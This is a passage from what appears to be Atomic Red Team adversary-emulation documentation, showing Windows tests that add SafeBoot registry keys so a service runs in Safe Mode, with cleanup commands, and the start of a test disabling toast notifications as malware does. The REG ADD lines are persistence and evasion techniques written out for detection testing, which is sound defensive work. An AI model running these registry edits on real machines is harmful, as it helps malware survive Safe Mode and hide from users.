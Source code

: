 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal\AtomicSafeMode" /VE /T REG_SZ /F /D "Service"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal\AtomicSafeMode" /f
```





<br/>
<br/>

## Atomic Test #34 - Windows Add Registry Value to Load Service in Safe Mode with Network
Modify the registry to allow a driver, service, to persist in Safe Mode with networking.
see https://redcanary.com/blog/tracking-driver-inventory-to-expose-rootkits/ and https://blog.didierstevens.com/2007/03/26/playing-with-safe-mode/ for further details.
Adding a subkey to Netowrk with the name of your service and a default value set to Service, makes that your service will be started when you boot into Safe Mode with networking.

**Supported Platforms:** Windows


**auto_generated_guid:** c173c948-65e5-499c-afbe-433722ed5bd4






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Network\AtomicSafeMode" /VE /T REG_SZ /F /D "Service"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Network\AtomicSafeMode" /f
```





<br/>
<br/>

## Atomic Test #35 - Disable Windows Toast Notifications
Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows toast notification.
See how azorult malware abuses this technique- https://app.any.run/tasks/a6f2ffe2-e6e2-4396-ae2e-04ea0143f2d8/
